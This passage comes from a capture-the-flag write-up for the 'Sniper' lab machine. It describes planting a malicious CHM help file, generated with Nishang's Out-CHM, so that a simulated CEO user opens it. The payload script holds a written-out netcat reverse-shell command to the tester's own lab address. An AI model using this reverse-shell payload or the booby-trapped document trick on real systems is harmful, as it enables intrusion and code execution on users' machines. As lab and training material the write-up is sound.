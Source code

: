 ```
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

I transferred **instructions.chm** across to my Kali VM with netcat and inspected it with [xCHM](https://github.com/rzvncj/xCHM).

![Image](/assets/img/sniper/sniper_chm_file.png)

A bit harsh maybe, but if I can create a malicious .chm that executes my own code and drop it in C:\Docs, hopefully the CEO should open it, running our code in his user context (ideally as Administrator).

The offensive Powershell framework [Nishang](https://github.com/samratashok/nishang) can help with this! It contains a module called [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) for generating malicious CHM payloads. I couldn't run this script in Kali or on the target because it requires the HTML Help Workshop binary (hhc.exe), which isn't on either. I jumped across to a Windows VM to set it up and used a basic payload - it's a "Powershell script" that just sends me a new netcat reverse shell using the binary I've already transferred across.
  - I Download and install the HTML Help Workshop from https://www.microsoft.com/en-au/download/details.aspx?id=21138
  - shell.ps1 simply contained: `C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.5 4444 -e cmd.exe`
  
![Image](/assets/img/sniper/sniper_privesc_nishang.png)
